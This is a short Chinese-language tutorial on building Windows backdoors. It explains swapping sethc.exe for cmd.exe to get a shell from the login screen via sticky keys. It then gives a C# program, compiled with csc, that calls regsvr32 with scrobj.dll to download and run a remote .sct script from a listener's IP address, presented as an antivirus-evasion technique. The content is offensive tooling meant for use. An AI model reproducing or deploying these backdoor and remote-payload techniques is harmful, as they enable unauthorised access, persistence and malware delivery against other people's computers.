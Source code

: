 **1.exe后门:windows后门sethc.exe**

原理：在windows 2000/xp/vista下，按shift键5次会打开粘置，会运行sethc.exe,而且在登录页面可以打开，当我们把这个sethc.exe更换为cmd.exe文件时，就可以得到shell。

**2.如何制作后门文件**

1）用管理员权限打开cmd

2）cmd如下，

`  cd C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\`

<img src="C:\Users\MCY\AppData\Roaming\Typora\typora-user-images\1619143620256.png" alt="1619143620256"  />

`C:\Windows\Microsoft.NET\Framework\v2.0.50727>csc /t:exe /out:xxx.exe regsvr32.cs

 /t:exe意思是，输出exe文件。
/out:aaa.exe意思是，输出名字叫xxx的exe文件。
regsvr32.cs就是我们利用做免杀的c#文件。
[https://github.com/pasahitz/regsvr32](https://link.jianshu.com?t=https://github.com/pasahitz/regsvr32)
regsvr32.cs这个文件需要单独编辑 

`using System;
using System.Runtime.InteropServices;

namespace Regsvr

{ public class CMD
    { [DllImport("msvcrt.dll")]
        public static extern int system(string cmd);
        public static void Main()
        { system("regsvr32 /s /n /u /i:http://监听者IP:监听的端口/你刚才生成的sct文件 scrobj.dll");
        }}}`

当然这是在windows下生成的后门程序，我们也可以在kali下利用很多模块生产后门程序。
为了免杀，有必要使用免杀技术。

